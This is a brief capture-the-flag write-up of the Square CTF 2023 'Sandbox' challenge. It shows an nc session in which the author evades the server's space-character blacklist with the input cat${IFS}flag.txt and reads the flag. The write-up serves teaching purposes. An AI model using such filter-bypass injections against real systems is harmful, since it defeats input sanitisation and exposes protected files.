 ```yaml
---
title: Sandbox
date: 2024-02-19T14:54:01+02:00
description: Writeup for Sandbox [Square CTF 2023]
author: HON3YP0T
tags:
- pwn
draft: false
---
```

___

## Challenge Description

I "made" "a" "python" "sandbox" """"
nc 184.72.87.9 8008

## Intuition

It seems the server blacklist the space character so I am not able to `cat flag.txt`.

## Solution

Escape the space character by using the following command:

```bash
┌──🮤 HON3YP0T🮥─🮤 192.168.0.234🮥─🮤直 192.168.0.17🮥
├──🮤  ~🮥
└─   nc 184.72.87.9 8008                                            [11:51PM ]
Hi! Welcome to the kidz corner sandbox! we made it super safe in here - you can execute whatever command you want, but only one word at a time so you can't do anything too dangerous, like steal our flags!
cat${IFS}flag.txt
flag{did_you_use_ifs_or_python_let_me_know_down_in_the_comments}
```

### Flag

`flag{did_you_use_ifs_or_python_let_me_know_down_in_the_comments}`

